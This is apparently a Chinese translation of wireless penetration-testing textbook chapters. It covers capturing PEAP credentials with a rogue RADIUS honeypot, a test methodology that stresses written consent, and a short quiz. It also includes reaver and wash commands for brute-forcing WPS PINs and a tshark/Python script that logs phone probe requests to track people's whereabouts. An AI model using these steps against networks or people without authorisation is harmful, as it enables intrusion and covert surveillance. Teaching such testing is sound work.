我们使用FreeRADIUS-WPE搭建了蜜罐。企业客户端存在配置错误，未在PEAP中启用证书验证。这使得我们能够向客户端出示自定义的伪造证书，而客户端会直接接受。一旦该情况发生，作为内部身份验证协议的MSCHAP-v2就会启动。由于客户端使用我们的伪造证书加密数据，我们可以轻松恢复用户名、质询和响应的元组。MSCHAP-v2易受字典攻击。我们使用asleap工具破解质询和响应对，因为该哈希看起来是基于字典单词生成的。PEAP存在多种错误配置方式。即使启用了证书验证，如果管理员未在“连接到这些服务器”列表中添加可信服务器，攻击者也可以从列表中任意受信任的证书颁发机构获取其他域名的真实证书，客户端仍然会接受该证书。此类攻击的其他变体也有可能发生。

## 企业安全最佳实践
我们已见识到大量针对WPA/WPA2（含个人版和企业版）的攻击。基于我们的经验，我们给出以下建议：
- 对于小型办公/家庭办公（SOHO）网络及中小型企业，使用带有强密码的WPA2-PSK。您最多可使用63个字符，请充分利用这一字符空间。
- 对于大型企业，使用搭载EAP-TLS的WPA2-Enterprise。该方案同时采用客户端和服务器端证书进行身份验证，目前无法被破解。
- 如果必须在WPA2-Enterprise中使用PEAP或EAP-TTLS，请确保已开启证书验证、选择了正确的证书颁发机构、使用经过授权的RADIUS服务器，同时关闭任何允许用户接受新RADIUS服务器、证书或证书颁发机构的设置。

## **测验 – 攻击WPA企业版与RADIUS**
#### Q1. 以下哪项是FreeRADIUS-WPE？
- 1. 一个从头编写的RADIUS服务器。
- 2. FreeRADIUS服务器的一个补丁。
- 3. 默认预装在所有Linux发行版中。
- 4. 以上都不对。
#### Q2. 以下哪项可用于攻击PEAP？
- 1. 伪造凭据。
- 2. 伪造证书。
- 3. 使用WPA-PSK。
- 4. 以上所有。
#### Q3. EAP-TLS使用什么？
- 1. 客户端证书。
- 2. 服务器端证书。
- 3. 仅上述1或2中的一个。
- 4. 上述1和2均使用。
#### Q4. EAP-TTLS使用什么？
- 1. 仅客户端证书。
- 2. 服务器端证书。
- 3. 基于密码的身份验证。
- 4. LEAP。

## 第9章：WLAN渗透测试方法论
本章将介绍如何将前几章所学的技术转化为完整的无线渗透测试流程。执行无线渗透测试时，遵循明确的方法论至关重要。仅启动airbase或airodump命令然后碰运气，是无法满足测试目标的。作为渗透测试人员，你必须确保遵守所服务组织的相关标准，若组织没有相关标准，你应遵守最高的行业标准。

从整体上看，我们可以将无线渗透测试流程划分为以下阶段：
- 规划阶段
- 发现阶段
- 攻击阶段
- 报告阶段

### 规划
在此阶段，我们需要明确以下内容：
- 评估范围：渗透测试人员应与客户协同定义可实现、且能最大限度揭示网络安全状况的范围。通常需要收集以下信息：
  - 渗透测试的地点
  - 场所的总覆盖面积
  - 已部署的接入点和无线客户端的大致数量
  - 评估涵盖哪些无线网络？
  - 漏洞利用是否在评估范围内？
  - 针对用户的攻击是否在评估范围内？
  - 拒绝服务攻击是否在评估范围内？
- 工作量估算：根据定义的范围，测试人员需要估算所需时间。请注意，估算完成后可能会发生范围调整，因为组织在时间和资金方面的资源可能有限。
- 合法性：执行测试前，客户必须出具书面同意。同意书应说明测试覆盖范围，明确赔偿、保险的级别以及范围的限制。如果你不确定，需要咨询相关领域的专业人士。大多数组织都有自己的版本，通常还会包含保密协议（NDA）。一旦上述所有要求落实到位，我们就可以开展测试了！

### 发现
此阶段的目标是识别范围内无线设备和无线网络的特征并为其标注。执行这些操作的技术在前面的章节中已有介绍，简而言之，目标如下：
- 枚举区域内可见和隐藏的无线网络
- 枚举区域内的设备，以及连接到目标网络的设备
- 绘制网络覆盖范围图，标注网络可从哪些位置接入，以及是否存在恶意攻击者可发起攻击的位置（例如咖啡馆）

所有上述信息都需要记录。如果测试仅限侦察工作，那么测试将在此结束，测试人员将尝试基于这些信息得出结论。对客户有用的表述示例如下：
- 连接到开放网络和企业网络的设备数量
- 可通过WiGLE等解决方案关联到具体位置的网络数量
- 弱加密的存在情况
- 已建立的网络安全性过强

### 攻击
完成侦察工作后，需开展漏洞利用以验证概念。如果攻击是红队演练或更广泛评估的一部分，那么漏洞利用应尽可能隐秘地完成以获取网络访问权限。在我们的攻击阶段，我们将探索以下内容：
- 破解加密
- 攻击基础设施
- 入侵客户端
- 查找易受攻击的客户端
- 查找未授权客户端

#### 破解加密
第一步是获取任何已识别易受攻击网络的密钥。如果存在WEP网络，请执行第4章《WLAN加密漏洞》中介绍的WEP破解方法。如果存在WPA2保护的系统，你有两个选择。如果追求隐秘性，请在抵达站点时

用户可能进行身份验证或重新验证的时间段，通常包括：
- 每天开始
- 午休时段
- 每天结束
此时，请按照第4章《WLAN加密缺陷》中的说明配置WPA密钥获取方案。或者，也可以执行第6章《攻击客户端》中介绍的解除认证攻击。这种攻击方式噪音更大，在成熟的组织中更容易被发现。如果部署的是WPA-Enterprise，请注意你需要利用前期侦察收集的信息定位正确的网络，并按照第8章《攻击WPA-Enterprise与RADIUS》中“攻击PEAP”部分的说明搭建模拟企业级环境。你可以尝试破解所有密码，但要注意部分密码可能是无法破解的。测试完成后，请向无线管理员核对当前使用的密码，确认该密码是否安全，同时排查你是否因工具故障或运气不佳才未能破解。

#### 攻击基础设施
如果通过破解加密获得了网络访问权限，且该操作在测试范围内被允许，可执行标准的网络渗透测试，至少需要完成以下操作：
- 端口扫描
- 识别运行的服务
- 枚举所有开放服务，例如无需认证的FTP、SMB或HTTP服务
- 利用已识别的易受攻击服务

#### 入侵客户端
完成所有无线系统的枚举和测试后，可根据不同的任务类型对客户端发起攻击。如有必要，在确认哪些客户端易受Karma攻击后，可搭建蜜罐，按照第8章《攻击WPA-Enterprise与RADIUS》中“攻击PEAP”部分的方法强制这些客户端连接。通过这种方式可以收集到多种有用的信息，但要确保收集的数据有明确用途，且以合规、安全的方式存储、传输和使用。

### 报告撰写
最后，测试结束后需要向客户提交测试发现的报告。要确保报告质量与测试质量匹配，这一点非常重要。由于客户只会看到报告，因此你需要像对待测试工作一样，对报告投入同等的重视和精力。以下是报告的结构参考：
1. 管理层概要
2. 技术概要
3. 发现项：
   - 漏洞描述
   - 严重等级
   - 受影响设备
   - 漏洞类型——软件/硬件/配置类
   - 修复建议
4. 附录

管理层概要的受众是高级非技术人员，重点从宏观层面说明漏洞的影响和需要采取的缓解措施。避免使用过于专业的术语，确保覆盖根本原因。
技术概要的定位介于管理层概要与发现项列表之间，面向开发人员或技术负责人，重点说明问题的修复方法以及可落地的大范围解决方案。
发现项列表需要详细描述每个漏洞，说明漏洞的识别、复现方法以及漏洞相关信息。
附录用于存放所有无法在简短描述中充分说明的额外信息，截图、概念验证代码或获取到的敏感数据可放在这部分。

### 本章小结
本章我们介绍了执行各类无线测试的方法论，并针对每个步骤关联了对应的参考章节，同时列出了漏洞报告的规范以及技术数据呈现的相关技巧。在接下来也是最后一章中，我们将介绍本书首版发布后出现的新技术，包括WPS攻击以及用于监听的探测帧监控技术。

## 第10章：WPS与探测帧
本章将介绍与WPS攻击、探测帧监控相关的新技术，同时涵盖能让无线测试效率大幅提升的Pineapple工具。这些攻击手法和工具均是在本书首版发布后出现的，我们会尽可能全面地介绍相关内容。

## WPS攻击
无线保护设置（WPS）于2006年推出，目的是帮助没有无线网络知识的用户搭建安全的网络。该方案的思路是，用户的Wi-Fi设备会内置一个唯一的隐藏硬编码值，用户无需记忆复杂密钥即可完成接入认证；新设备只需按下Wi-Fi路由器上的按键即可完成认证。没有设备访问权限的外部人员无法接入网络，从而解决了记忆WPA密钥或设置简单密钥的痛点。2011年末，有安全研究人员披露了该WPS认证系统的暴力破解漏洞：WPS协商过程所需的流量可被伪造，且WPS PIN码仅由0-9的8位数字组成。仅从长度来看，PIN码的可能组合仅有1亿种，而同样是8位的a-zA-Z0-9格式密码则有218,340,105,584,896种组合。不过WPS还存在更多漏洞：
- WPS PIN码共8位，最后一位是前7位的校验和，因此可被预测，剩余的可能组合最多只有1000万种
- 此外，剩余字符中前4位和后3位会被分别校验，这意味着仅需尝试10⁴ + 10³ = 11000种组合

通过认证机制中的这两处设计，PIN码的可能组合从1亿种直接缩减到了11000种，暴力破解该算法的时间也从数小时级别大幅缩短。正是这些设计缺陷使得WPS攻击成为可能。接下来请按照以下步骤开始操作：
1. 在攻击支持WPS的接入点之前，我们需要先搭建一个。我们使用的TP-Link路由器默认开启了该功能，这虽然令人担忧，但也十分方便。要确认这一点，我们可以登录路由器后台，点击WPS选项，界面应如下图所示：

2. 现在我们已经确认路由器支持WPS。接下来需要配置攻击目标，也就是搭建我们的测试环境。我们将使用Wash工具，该工具需要监听接口才能运行。和之前的操作一样，我们需要通过以下命令配置监听接口：
``` airmon-ng start wlan0 ```
命令执行结果如下所示：

3. 现在我们已成功配置名为mon0的监听接口，可以通过以下命令调用Wash工具：
``` wash --ignore-fcs -i mon0 ```
其中`--ignore-fcs`参数是为了规避Wash工具对请求格式的特殊要求导致的问题，命令执行结果如下：

4. Wash工具会显示附近所有支持WPS的设备，同时标注这些设备的WPS是否处于激活/解锁状态，以及运行的WPS版本，结果如下：

5. 我们可以看到Wireless Lab网络支持WPS，运行的是1版本且处于未锁定状态，非常理想。我们需要记下该网络的MAC地址，我测试环境中的地址是E8:94:F6:62:1E:8E，这个地址将用于我们接下来的工具Reaver的定向攻击。
6. Reaver工具会对指定MAC地址对应的设备的WPS PIN码发起暴力破解。工具启动的语法如下：
``` reaver -i mon0 -b <mac> -vv ```
命令执行结果如下：

7. 工具启动后会遍历所有WPS PIN码的可能组合并尝试认证，一旦成功破解，就会返回WPS PIN码和对应的Wi-Fi密码，结果如下图所示：

8. 拿到WPA-PSK密码后，我们就可以正常接入网络了。我测试用的设备设置的默认WPA-PSK密码和WPS PIN码一致。如果你想直接用WPS PIN码接入，可以在Reaver命令中指定PIN码，语法如下：
9. ``` reaver -i mon0 -b <mac> -vv -p 88404148 ```
请将示例中的PIN码替换为你实际破解到的PIN码。


### 探针嗅探
我们之前讲过探针的相关内容，以及如何用它们识别隐藏网络、发起有效的恶意接入点攻击。还可以用极少的设备将个人指定为监控目标，或进行大规模追踪。

当设备想要连接网络时，会发送包含自身MAC地址、以及想要连接的网络名称的探测请求。我们可以使用airodump-ng这类工具来追踪这些请求。不过，如果我们想要确认某人在特定时间是否出现在特定地点，或是分析Wi-Fi的使用趋势，就需要换一种方法。

本节我们会用tshark和Python来收集数据，你将会获得相关代码以及操作说明。请按照以下步骤开始操作：
- 1. 首先，我们需要一台会搜索多个网络的设备。通常普通的智能手机（比如安卓设备或iPhone）就可以胜任。台式机一般不适合作为目标，因为它们通常固定在一个位置。较新的iPhone和安卓设备可能会关闭或混淆探测请求，所以放弃之前记得先检查确认。
- 2. 准备好设备后，确保Wi-Fi处于开启状态。
- 3. 然后按照我们之前多次操作的方法配置监控接口：

- 4. 接下来要用tshark通过以下命令查找探测请求：
``` tshark -n -i mon0 subtype probereq ```
该命令的运行截图如下：

- 5. 此时的输出结果还比较粗糙，因为tshark的默认输出并不是为了易读设计，只是尽可能多地包含信息。结果样式如下所示：

- 6. 你已经可以清楚看到探测请求里的MAC地址和SSID，但这个输出还可以优化。我们可以用以下命令让结果更易读：
``` tshark -n -i mon0 subtype proberequest -T fields -e separator= -e wlan.sa -e wlan_mgt.ssid ```
该命令的运行截图如下：

- 7. 这里的输出结果易读性高了很多：

- 8. 现在我们已经拿到了易读格式的输出，接下来要做什么呢？我们需要编写一个Python脚本，运行上述命令并记录输出结果，供后续分析使用。运行代码前，你需要确保监控接口已经配置完成，并且当前目录下已经创建了名为results.txt的文件。Python脚本如下所示：
``` import subprocess
import datetime
results = open("results.txt", "a")
while 1:
    blah = subprocess.check_output(["tshark -n -i mon0 subtype probereq -T fields -e separator= -e wlan.sa -e wlan_mgt.ssid -c 100"], shell=True)
    splitblah = blah.split("\n")
    for value in splitblah[1:]:
        splitvalue = value.split("\t")
        MAC = str(splitvalue[1])
        SSID = str(splitvalue[2])
        time = str(datetime.datetime.now())
        results.write(MAC+" "+SSID+" "+time+"\r\n") ```
下面来简单介绍这个Python脚本的功能：
- 导入subprocess库和datetime库：这让我们可以调用这两个库。subprocess库支持我们从Linux命令行监控接口，datetime库则可以帮助我们获取精准的时间和日期读数。
- while 1：这行代码的含义是持续运行，直到手动终止。
- results = open("results.txt", "a")：这行代码会以追加模式打开文件，并将文件对象赋值给results变量。追加模式只允许脚本在文件原有内容的基础上添加新内容，避免文件被反复覆盖。
- blah = subprocess.check_output(["tshark -n -i mon0 subtype probereq -T fields -e separator= -e wlan.sa -e wlan_mgt.ssid -c 100"], shell=True)：这行代码会打开shell执行我们之前测试过的tshark命令，本次唯一的区别是增加了`-c 100`参数，该参数的作用是将命令的查询次数限制为100次。这样我们无需终止程序就能拿到返回结果，由于脚本在写入结果后会持续运行，因此会自动重新执行该命令。
- 这行代码会获取shell的输出结果，并将其赋值给变量blah。
- splitblah = blah.split("\n")：这行代码会对变量blah的内容按行进行拆分。
- for value in splitblah[1:]：这行代码会遍历输出结果的每一行，跳过包含表头的第一行，对其余行重复执行后续操作。
- splitvalue = value.split("\t")：这行代码会以制表符为分隔符，将每一行内容拆分为更小的片段。
- 接下来三行代码会将每个文本片段分别赋值给对应变量：
``` MAC = str(splitvalue[1])
SSID = str(splitvalue[2])
time = str(datetime.datetime.now()) ```
- results.write(MAC+" "+SSID+" "+time+"\r\n")：这行代码会将所有值写入文件，值之间用空格分隔，末尾添加回车和换行符以保证格式整洁，最终写入文件的内容会是整齐的文本行。

你可以调研哪些工具支持可视化、数据分析且能轻松与Python集成，比如Maltego就有免费版本可以用来绘制信息图。你可以搭建MySQL数据库来存储收集到的数据，同时修改前面的Python脚本，将结果输出到数据库中。之后再编写另一个脚本（也可以和之前的脚本集成在一起）来读取数据库中的数据，并输出到Maltego中。接着修改脚本，使其可以查询WiGLE，收集探测请求对应的地理位置数据，再通过**Maltego**输出这些数据。你也可以尝试用Flask、Django或PHP搭建Web前端来展示你的结果。还可以调研当下已有的数据呈现方案，尝试通过和方案开发者交流的方式复现或优化这些方案。

### 总结
本章我们讨论了自本书初版发布以来出现的针对WPS的攻击方式，也初步探索了如何将无线工具与Python集成。好啦，本书的内容就到这里了，希望你能有所收获、觉得内容有趣。我们在其他书籍和作品中再见吧。
